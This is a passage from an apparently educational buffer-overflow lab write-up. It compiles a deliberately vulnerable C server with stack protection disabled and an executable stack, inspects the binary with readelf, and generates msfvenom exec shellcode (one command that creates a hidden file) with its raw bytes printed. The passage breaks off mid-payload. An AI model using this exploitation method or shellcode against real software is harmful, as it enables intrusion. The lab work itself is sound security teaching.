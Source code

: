```
    return 0;
}

int main(void)
{
    authenticate();
    return 0;
}

void secret(void)
{
    puts("secret found!");
}
```

## exploit

Let’s compile and inspect the binary:

```
$ gcc lab/buffer-overflow/bof-server2.c -g -o build/bof-server-pie2 -fPIE -pie -fno-stack-protector -z execstack
...
$ readelf -l build/bof-server-pie2   

Elf file type is DYN (Position-Independent Executable file)
Entry point 0x1090
There are 13 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
...
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
...
```

We added the `-fno-stack-protector` and `-z execstack` flags which resulted in an executable stack (RWE = Read + Write + Execute) without the stack protection security feature which would prevent stack buffer overflow attacks.

Now there are 2 things left to do, we need to generate our shellcode and assemble the whole payload. We generate 2 shellcodes, one to create the hidden file `.tmpdata`. The shellcode should not contain `\x0a` because it is the newline character and `gets()` stops at newline. We could specify `-b \x0a` to explicitly avoid this character but in my experience we might get broken shellcodes and without `-b \x0a` we get good payloads (no newlines) most of the times.

```
$ msfconsole
...
msf6 > msfvenom -p linux/x64/exec CMD="touch .tmpdata" -b \x00 -f python
[*] exec: msfvenom -p linux/x64/exec CMD="touch .tmpdata" -b \x00 -f python
Overriding user environment variable 'OPENSSL_CONF' to enable legacy functions.
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No badchars present in payload, skipping automatic encoding
No encoder specified, outputting raw payload
Payload size: 51 bytes
Final size of python file: 270 bytes
buf =  b""
buf += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50"
buf += b"\x54\x5f\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x0f"
buf += b"\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2e\x74\x6d"
buf += b"\x70\x64\x61\x74\x61\x00\x56\x57\x54\x5e\x6a\x3b"
```